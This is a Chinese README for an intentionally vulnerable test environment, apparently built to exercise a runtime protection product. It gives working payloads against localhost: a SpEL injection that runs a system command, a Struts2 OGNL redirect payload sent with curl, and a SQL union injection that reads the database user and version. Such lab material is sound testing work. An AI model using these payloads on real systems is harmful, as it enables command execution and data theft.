

# TongASDP漏洞测试环境

TongASDP漏洞测试环境包含了两个项目:`tongasdp-test-springboot`和`tongasdp-test-struts2`，它们使用了相同的源代码分别用于测试`SpringBoot`和`Struts2`漏洞。

## SpringBoot SpEL表达式注入

`tongasdp-test-springboot`使用的是`SpringBoot 1.3.0`，这个版本存在`SpEL表达式注入`漏洞，访问的控制器地址是`getUserById.do?id=1`，参数`id`存在`SpEL表达式注入`漏洞，发送如下`Payload`服务器会返回`SpEL表达式`的计算结果：


通过SpEL表达式可以执行系统命令，如:`http://localhost:8000/getUserById.do?id=${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(105).concat(T(java.lang.Character).toString(100)))}`。

## Struts2 OGNL表达式注入

`tongasdp-test-struts2`使用的是`Struts2 2.1.8`版本存在`Struts2`命令执行漏洞，访问的`action`是`rasp.action`可以使用`Struts2`的`Payload`进行检测，例如发送如下`Payload`服务器会返回`[/ok]`:

```
redirect:${%23w%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),%23w.println('[/ok]'),%23w.flush(),%23w.close()}
```

如使用`curl`发送`Payload`：

```
curl -i http://localhost:8000/rasp.action -d "redirect:%24%7b%23w%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),%23w.println('[/ok]'),%23w.flush(),%23w.close()%7d"
```
或者使用浏览器访问(需要注意的是Tomcat8+不能使用URL传参):`http://localhost:8000/rasp.action?redirect:%24%7b%23w%3d%23context.get(%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27).getWriter(),%23w.println(%27[/ok]%27),%23w.flush(),%23w.close()%7d`


## SQL注入

几乎所有可以传参的地方都存在SQL注入，例如获取文章详情页中的`articleId`参数存在注入，如使用算数符获取ID为10000的文章(`articleId=100001-1`)：


注入数据库信息：
`http://localhost:8000/getArticle.do?articleId=100001%20and%201=2%20union%20select%201,2,user(),4,version(),null,7`


需要注意的是因为数据库查询的时候有一个字段是`private Date publishDate;`所以注入的时候需要注意数据字段类型，上述`union select`注入示例使用了`null`占位。

## 其他测试用例

`tongasdp-test-core`项目中的`com.github.tongasdp.controller`包下面包含了非常多的其他测试用例。